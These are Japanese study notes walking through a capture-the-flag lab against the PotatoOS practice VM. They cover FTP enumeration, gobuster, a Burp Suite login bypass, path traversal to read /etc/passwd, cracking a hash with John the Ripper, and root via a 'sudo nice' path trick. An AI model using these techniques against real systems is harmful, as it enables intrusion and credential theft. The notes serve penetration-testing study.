 ## 目的
- user.txtとroot.txtの中身を見る

## 準備
- PotatoOSの起動はヘッドレスモードでいい
## 実践 343~

### ポートスキャンまで同じ
- 22,80,2112の3つのポートが空いているのがわかる 

### 2112ポートの攻略
  - ftpでファイルを取得
  - ftpコマンドはParrotOSにはデフォルトで入っていないので、一度ネットワークをNATにして、ftpコマンドをaptで得る。取得後はネットワークをローカルホストに戻す
  - `sudo apt update`, `sudo apt install ftp`
  - `ftp $IP ポート番号`
  - user:`anonymous`, password:` ` 入力後にプロンプトが返ってくる
  - lsコマンドでファイルがわかる
  - getコマンドでファイルを取得後にexitで抜ける
  - index.phpを見ると認証に欠陥があることがわかる 

### fileコマンドで危険なファイルかもしれないので中身を確認
  - file ファイル名
  - ソースの認証部分を読むとパスワード書いてあることがわかる

### gobuster
- 通常には見えない隠しサイトを探してくる 
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`
  - `dir`はつけないとエラーになる
  - サイトを見つけたいのでディレクトリを探すので`-x`はいらない
- `/admin`という興味深いディレクトリがある 

### Webブラウザで確認
  - `192.168.56.101/admin`
  - 確認したら閉じる

### BurpSuiteで認証
- BurpSuitはプロキシサーバの役割を持ちhttpリクエストを書き換える効果がある
- htmlのソースを見ると、postメソッドが使われているので、BurpSuitを使って送信を書き換える
  - intercept is on にすると、パケットを送信せずに止めておくモードになる 
- ターミナルで`burpsuite`と入力、またはOSのMenuからBurpSuiteを起動
- 全部デフォルトでOK 
- proxy -> intercept is off -> open browser 
- ブラウザを起動した状態で192.168.56.101/adminでサイトに移動したら
- `intercept on` にする
- userを`admin`とpasswordを`test`と入力してlogin
- HTTPリクエストが表示されるので、一番下を `password[]=test`と書き直す
- 一番左のForwardボタンを押す
- 成功すると、Admin areaサイトに切り替わる
- `Intercept is off`にするとマウスで操作できる
### BurpSuiteでディレクトリリバーサル
- ディレクトリリバーサルとはリンクのパスで一度ルートに移ってから、目的のファイルにアクセスすること
- Logsに移動する
- `intercept is on`にする
- どれでもいいが、log_03.txtにボタン押して、Get the logを押す
- BurpSuiteがhttpリクエストをキャプチャするので`file=log_03.txt`を以下のように書き直す。これはリクエストを利用して、ディレクトリリバーサルをしている
  - `file=../../../../../etc/passwd`と書き直してForwardボタンを押す
- 表示をコピーする

### John the ripperで使うファイルを作る
- `cat > pass.txt` ここでペーストして、ctrl + d　で抜ける
- シェルの使えるユーザを探す。ファイルを見るとwebadminがシェルを使えて、パスワードのハッシュ値があるのでそれを解析する
- `cat pass.txt | grep -P 'sh$' | grep webadmin > hash.txt`

### John the ripper
  - OSのMenuからjohnを検索して起動する 
  - 本ではrockyou.txtを使っているが、ファイルは見つからないのでjohn.lstを使う
  - `sudo john hash.txt --wordlist=/usr/share/wordlists/john.lst`
    - `-w=/usr/~`でもOK
    - 過去に一度暗号を解読していると表示されないので以下のようにする
    - `sudo john hash.txt --show` 

### sshでリモートに接続
- `ssh webadmin@192.168.56.101`
- password `dragon`
- lsコマンドでuser.txtがあるので１つ目のflagを取得、ただし中身が変換されているので直す
- `cat user.txt | base64 -d`

### (おまけ)Linpeasを送って、実行してみる
- `sudo scp linpeas.sh webadmin@192.168.56.101:/tmp`
- `chmod +x linpeas.sh`
- `./linpeas.sh > /home/webadmin/linpeas.log`

### userのroot権限を調べる
- `sudo -l`
- niceコマンドが引数`/notes/*`ディレクトリにあるファイルは全てルート権限で実行できるので、このコマンドを使って/bin/bashを実行する。ルート権限での実行なので当然、頭にsudoをつける
- notesはルートディレクトリの直下にあるので、ディレクトリリバーサルを利用して/bin/bashを呼び出す
- `sudo /bin/nice /notes/../bin/bash` 

### root権限
  - `cd /root`
  - `ls`
  - `cat root.txt`　２つ目のflagを取得 
